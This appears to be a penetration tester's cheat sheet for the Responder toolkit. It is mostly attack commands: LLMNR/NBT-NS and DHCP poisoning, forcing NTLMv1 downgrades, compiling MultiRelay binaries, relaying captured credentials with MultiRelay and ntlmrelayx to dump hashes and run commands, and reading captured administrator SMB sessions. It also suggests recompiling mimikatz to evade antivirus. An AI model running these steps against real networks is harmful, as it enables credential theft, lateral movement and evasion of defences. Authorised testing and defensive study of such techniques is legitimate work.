 # Source: 

https://github.com/lgandx/Responder

# Tools in Responder: 

Location: /usr/share/Responder/tools

# Make changes to config to turn off services:

`nano /usr/share/responder/Responder.conf`

# Configuring MultiRelay: 
In Kali Linux: 
1. pip install pycryptodome
2. Install Mingw and create multi relay binaries:
```
sudo apt-get install gcc-mingw-w64-x86-64
sudo x86_64-w64-mingw32-gcc ./MultiRelay/bin/Runas.c -o ./MultiRelay/bin/Runas.exe -municode -lwtsapi32 -luserenv
sudo x86_64-w64-mingw32-gcc ./MultiRelay/bin/Syssvc.c -o ./MultiRelay/bin/Syssvc.exe -municode
```
4. python3 MultiRelay.py
```
Usage: 
responder-MultiRelay -t 10.20.30.40 -u Administrator lgandx admin
responder-MultiRelay -t 10.20.30.40 -u ALL

Options:
  --version             show program's version number and exit
  -h, --help            show this help message and exit
  -t 10.20.30.45        Target server for SMB relay.
  -p 8081               Additional port to listen on, this will relay for
                        proxy, http and webdav incoming packets.
  -u, --UserToRelay     Users to relay. Use '-u ALL' to relay all users.
  -c whoami, --command=whoami
                        Single command to run (scripting)
  -d, --dump            Dump hashes (scripting)
```


# Starting Responder:

- responder -I [Interface] -A
- responder -I [Interface] -i [IP Address] or -e [External IP] -A

## Starting Responder in Basic Authentication Mode
- responder -I [Interface] -wdF -b

## Force NTLM Authentication to version 1 instead of version 2:
- responder -I [Interface] -wdF --lm --disable-ess

## External IP Poisoning
- responder -I [Interface] -e 172.21.1.2

## DNS Injection in DHCP Responses
- responder -i [interface] -D

# Using Responder-RunFinger to verify if SMB Signing is not enabled

- responder-RunFinger -i 172.21.0.0/24
- python3 RunFinger.py -i 172.21.0.0/24

# Using Responder-MultiRelay
Tips:
Multirelay uses the default version of mimikatz and it can easily flagged by AV. It is recommend to compile your own custom version and use it with mutlirelay.
Do not run multirelay against targets that have smb message_signing enabled:

- responder-Multirelay -t 172.21.0.0 - u ALL
- python3 Multirelay.py -t 172.21.0.0 -u ALL

# Using Responder with Impacket-Ntlmrelayx
NtlmRelayX is an impacket script that allows you to conduct NTLM Relay Attacks, by creating an SMB and HTTP server and relaying credentials to various different protocols (SMB, HTTP, LDAP, etc.).

1. When you are using responder to capture challenges and relay them to ntlmrelayx you will need to turn off HTTP and SMB in the responder.conf file. Also have a list of what systems are running smb and have smb signing disabled.

2. Set up a socks proxy on port 1080. This socks proxy will successfully relay the traffic to ntlmrelayx. 
- sudo nano /etc/proxychains4.conf
```
[ProxyList]
# NtlmRelayX Socks Proxy
socks4 127.0.0.1 1080
# Other Proxies
```
3. Run Responder and NtlmRelayX to watch the magic happen:
- sudo Responder -I [Interface]
- impacket-ntlmrelayx -socks -smb2support -tf smb-targets.txt
- ntlmrelayx.py -socks -smb2support -tf smb-targets.txt

To view a full list of captured sessions from NtlmRelayX
```
ntlmrelayx> socks
Protocol  Target          Username                  Port
--------  --------------  ------------------------  ----
SMB       172.21.48.38   SPAWN/MSIMMONS            445
SMB       172.21.48.230  FAERIE/ADMINISTRATOR      445
SMB       172.21.48.230  FAERIE/ALSIMMONS          445
```

# References: 

- https://github.com/lgandx/Responder


